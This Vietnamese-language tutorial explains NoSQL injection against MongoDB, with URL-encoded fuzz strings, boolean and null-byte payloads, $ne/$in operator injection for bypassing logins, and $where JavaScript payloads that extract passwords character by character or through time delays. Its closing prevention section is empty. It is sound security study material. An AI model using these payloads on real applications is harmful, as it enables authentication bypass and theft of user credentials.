








# NoSQL injection
Lỗ hổng tấn công NoSQL Injection cho phép kẻ tấn công can thiệp vào các truy vấn ứng dụng đối với các cơ sở dữ liệu NoSQL. NoSQL Injection giúp kẻ tấn công
> Vượt qua cơ chế xác thực hoặc bảo vệ <br>
> Trích xuất hoặc chỉnh sửa dữ liệu <br>
> Gây ra tình trạng từ chối dịch vụ <br>
> Thực thi mã trên máy chủ <br>

Cơ sở dữ liệu NoSQL lưu trữ và truy xuất dữ liệu ở định dạng khác với các bảng quan hệ SQL truyền thống. Chúng sử dụng nhiều ngôn ngữ truy vấn khác nhau thay vì một tiêu chuẩn chung như SQL, và có ít ràng buộc quan hệ hơn.

## Các loại tấn công NoSQL Injection
> `Tấn công chèn cú pháp` - Điều này xảy ra khi có thể phá vỡ cú pháp truy vấn NoSQL, cho phép chèn mã độc riêng mình. Tương tự như SQL nhưng vì các cơ sở dữ liệu NoSQL sử dụng nhiều ngôn ngữ truy vấn, loại cấu trúc và truy vấn nó cũng khác nhau. <br>
> `Chèn toán tử` - Điều này xảy ra có thể sử dụng toán tử truy vấn NoSQL để thao tác các truy vấn <br>
Kiểm tra các lỗ hổng NoSQL tập trung vào việc khai thác các lỗ hổng trong `MongoDB`, cơ sở dữ liệu `NoSQL` phổ biến nhất. 
## Tiêm cú pháp NoSQL
Có thể phát hiện các lỗ hổng tấn công NoSQL Injection bằng cách chèn phá vỡ cú pháp truy vấn.
### Phát hiện tấn công chèn cú pháp trong MongoDB
Hãy xem xét một ứng dụng mua sắm hiển thị các sản phẩm thuộc nhiều danh mục khác nhau. Khi người dùng chọn danh mục Đồ uống có ga 
```http
https://insecure-website.com/product/lookup?category=fizzy
```
Điều này khiến ứng dụng truy vấn JSON lấy các sẳn phẩm liên quan toàn bộ `product` trong cơ sở dữ liệu MongoDB
```txt
this.category == 'fizzy'
```
Để kiểm tra xem dữ liệu đầu vào có dễ bị tấn công hay không, nhập chuỗi fuzzing vào giá trị `category` tham số như sau:
```txt
'"`{
;$Foo}
$Foo \xYZ
```
Sử dụng chuỗi mã gây nhiễu để xây dựng cuộc tấn công bằng cách url encode
```http
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
Nếu điều này làm cho ứng dụng gây ra lỗi chứng tỏ ứng dụng chưa được lọc hoặc xử lí đúng cách.

### Xác định các ký tự nào được xử lý
Để xác định ký tự nào được ứng dụng hiểu là cú pháp, có thể chèn kí tự riêng lẻ. Giả sử chèn dấu `'` dẫn đến truy vấn MongoDB sau:
```txt
this.category = '''
```
Nếu điều này gây ra lỗi với phản hồi trả về chứng tỏ nó đã gây ra lỗi phá vỡ cú pháp truy vấn bằng cách đó chúng ta sử dụng dấu thoát dấu ngoặc kép
```txt
this.category = '\''
```
Nếu điều này không gây ra lỗi chứng tỏ ứng dụng có thể tấn công bằng phương pháp chèn mã độc.
### Xác nhận hành vi có điều kiện
Sau khi phát hiện ra lỗ hổng, bước tiếp theo là xác định xem bạn có thể tác động đến các điều kiện boolean bằng cú pháp NoSQL hay không.
Chúng ta gửi 2 điều kiện đó là sai và đúng trong đó có 2 cú pháp sau:
Với 2 điều kiện
> ' && 0 && 'x <br>
> ' && 1 && 'x <br>
```http
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```
```http
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
Nếu ứng dụng trả về hoạt động khác đi cho thấy điều kiện sai ảnh hưởng đến logic truy vấn, nhưng điều kiện đúng thì không. Điều này chỉ ra rằng việc chèn kiểu cú pháp này ảnh hưởng đến truy vấn phía máy chủ.
### Ghi đè lên các điều kiện hiện có
Chúng ta có thể ghi đè lên các điều kiện hiện có để khai thác lô hổng. Giả sử `'||'1'=='1`
```http
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
```
Điều này dẫn đến `MongoDB` truy vấn:
```txt
this.category = 'fizzy'||'1'=='1'
```
Vì điều kiện được chèn luôn đúng, truy vấn đã sửa đổi sẽ trả về tất cả các mục. Điều này cho phép chúng ta có thể xem hết tất cả các sản phẩm cho dù đã ẩn
Chúng ta cũng có thể thêm ký tự null sau giá trị danh mục. MongoDB có thể bỏ qua tất cả các ký tự sau ký tự null. Cho thấy bất kỳ điều kiện bổ sung nào trong truy vấn MongoDB đều bị bỏ qua.
```txt
this.category == 'fizzy' && this.released == 1
```
Chúng ta có thể hạn chế `this.released == 1` được sử dụng để chỉ hiển thị sản phẩm được phát hành có lẽ rằng các sản phẩm chưa được phát hành `this.released == 0`
Trường hợp này kẻ tấn công có thể chèn 1 payload nullbyte
```http
https://insecure-website.com/product/lookup?category=fizzy'%00
```
Điều này dẫn đến truy vấn NoSQL sau:
```txt
this.category == 'fizzy\u0000' && this.realeased==1
```
Nếu MongoDB bỏ qua tất cả các ký tự sau ký tự null, điều này sẽ loại bỏ yêu cầu trường `"released"` phải được đặt thành 1. Kết quả là, tất cả các sản phẩm trong danh fizzy mục đều được hiển thị, bao gồm cả các sản phẩm chưa được phát hành.
## Tấn công chèn toán tử NoSQL
Các cơ sở dữ liệu NoSQL thường được sử dụng các toán tử truy vấn, cung cấp các cách để chỉ định các điều kiện mà dữ liệu đáp ứng.
Các toán tử trong truy vấn MonGoDB bao gồm:
> `$where` - Tìm các tài liệu đáp ứng biểu thức Javascript <br>
> `$ne`: - Khớp với tất cả các giá trị không bằng một giá trị được chỉ định <br>
> `$in`: - Khớp với tất cả các giá trị được chỉ định trong cùng một mảng <br>
> `$regex` - Chọn các tài liệu có giá trị khớp với một biêu thức chính quy được chỉ định <br>
## Toán tử truy vấn
Trong các thông báo JSON, có thể chèn các toán tử truy vấn dưới dạng các đối tượng lồng nhau. Ví dụ như : 
```json
{
    "username":"wiener"
}
```
Trở thành 
```json
{
    "username": {"$ne":"invalid"}
}
```
KẾt quả lúc này username = wiener trở thành username[$ne] = invalid. nó sẽ truy vấn các giá trị username không được chỉ định ngoài invalid

## Phát hiện tấn công chèn toán tử trong MongoDB
Giả sử có chức năng login như sau với yêu cầu POST 
```json
{
    "username":"wiener",
    "password": "peter"
}
```
Kẻ tấn công có thể truy vấn chèn toán tử như sau:
```json
{
    "username": {"$ne":"invalid"},
    "password": "peter"
}
```
Kết quả nếu `$ne` toán tử được áp dụng nó sẽ truy vấn kết quả tất cả người dùng khác `invalid` cùng với điều đó trường password cũng sẽ như thế.
Để nhắm vào mục tiêu quản trị chúng ta có thể sử dụng toán từ `$in`
```json
{
    "username":{"$in":["admin", "administrator"]},
    "password": {"$ne":""}
}
```
Kết quả nó trả về username của quản trị và truy vấn password khác rỗng .
## Khai thác lỗ hổng tấn công chèn cú pháp để trích xuất dữ liệu
Trong nhiều cơ sở dữ liệu NoSQL, một số toán tử hàm truy vấn có thể chạy mã Javascript giới hạn, chẳng hạn như `$where` hay là `mapReduce()` hàm của MongoDB.
### Trích xuất dữ liệu trong MongoDB
Giá sử ứng dụng dễ tấn công cho phép người dùng tra cứu tên người dùng đã đăng ký khác và hiển thị vai trò của họ.
```http
https://insecure-website.com/user/lookup?username=admin
```
Điều này dẫn đến truy vấn NoSQL sau đối với `users` tập hợp dữ liệu:
```json
{
    "$where": "this.username == 'admin'"
}
```
Vì truy vấn có sử dụng toán tử `$where` có thể chèn các hàm Javascript vào truy vấn để nó trả về dữ liệu nhạy cảm như:
```txt
admin' && this.password[0] == 'a' || 'a'=='b
```
Thao tác này trả về ký tự đầu tiên của chuỗi mật khẩu người dùng, cho phép bạn trích xuất mật khẩu từng ký tự một.
Bạn cũng có thể sử dụng `match()` hàm JavaScript để trích xuất thông tin. Đoạn mã sau cho phép xác định mật khẩu chứa chữ số hay không
```txt
admin' && this.password.match(/\d/) || 'a'=='b
```
## Xác định tên trường

## Khai thác lỗ hổng tấn công chèn toán tử NoSQL để trích xuất dữ liệu

### Trích xuất tên trường
Nếu đã chèn một toán tử cho phép chạy Javascript chúng ta có thể sử dụng phương thức `keys()` để trích xuất tên các trường dữ liệu.
```json
{
    "$where":"Object.keys(this)[0].match('^.{0}a.*')"
}
```
Thao tác này kiểm tra trường dữ liệu đầu tiên trong đối tượng người dùng và trả về ký tự đầu tiên của tên trường. Điều này cho phép bạn trích xuất tên trường từng ký tự một.
### Trích xuất dữ liệu bằng cách sử dụng toán tử
Ngoài ra, bạn cũng có thể trích xuất dữ liệu bằng cách sử dụng các toán tử không cho phép chạy JavaScript. Ví dụ, bạn có thể sử dụng toán `$regex`

## Tiêm theo thời gian

Các đoạn mã xử lý dữ liệu dựa trên thời gian sau đây sẽ kích hoạt độ trễ thời gian nếu mật khẩu bắt đầu bằng chữ cái `a`
```js
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```
```txt
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
## Ngăn chặn tấn công NoSQL injection
